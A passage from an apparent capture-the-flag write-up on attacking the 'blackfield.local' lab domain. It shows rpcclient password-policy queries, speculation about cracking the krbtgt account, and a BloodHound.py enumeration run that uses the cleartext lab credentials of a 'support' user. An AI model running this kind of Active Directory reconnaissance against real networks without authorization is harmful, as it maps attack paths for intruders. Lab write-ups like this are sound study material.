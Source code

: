 ```shell
               0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
               0: DOMAIN_PASSWORD_STORE_CLEARTEXT
               0: DOMAIN_REFUSE_PASSWORD_CHANGE

rpcclient $> getusrdompwinfo 0x585
    &info: struct samr_PwInfo
        min_password_length      : 0x0007 (7)
        password_properties      : 0x00000001 (1)
               1: DOMAIN_PASSWORD_COMPLEX  
               0: DOMAIN_PASSWORD_NO_ANON_CHANGE
               0: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
               0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
               0: DOMAIN_PASSWORD_STORE_CLEARTEXT
               0: DOMAIN_REFUSE_PASSWORD_CHANGE

rpcclient $> getusrdompwinfo 0x586
    &info: struct samr_PwInfo
        min_password_length      : 0x0007 (7)
        password_properties      : 0x00000001 (1)
               1: DOMAIN_PASSWORD_COMPLEX  
               0: DOMAIN_PASSWORD_NO_ANON_CHANGE
               0: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
               0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
               0: DOMAIN_PASSWORD_STORE_CLEARTEXT
               0: DOMAIN_REFUSE_PASSWORD_CHANGE

rpcclient $> 

```
At first i thought since for the user krbtgt the DOMAIN_PASSWORD_COMPLEX is 0 which means the password is only alphanumeric if it was 1 instead there would be special characters as well, here the password for the user krbtgt doesn't follow the password policy and can be cracked?!
But if we try to get the TGT for krbtgt we get the error credentials have been revoked for the user krbtgt. We need to think of something else.<br>
### Enumerating Active Directory with Bloodhound
[https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)<br>
We can enumerate AD with the support user, first of all mark the support user as owned, mark the audit2020 user as high value.<br>
Then right click on the audit2020 user and select 'Shortest Path to Here from Owned'.
```shell
sid@kali:/opt/BloodHound.py$ sudo python3 bloodhound.py  -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c DcOnly
INFO: Found AD domain: blackfield.local
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 315 users
INFO: Connecting to GC LDAP server: dc01.blackfield.local
INFO: Found 51 groups
INFO: Found 1 computers
INFO: Found 0 trusts
INFO: Done in 00M 14S

sid@kali:/opt/BloodHound.py$ sudo bloodhound
```
<p class="aligncenter">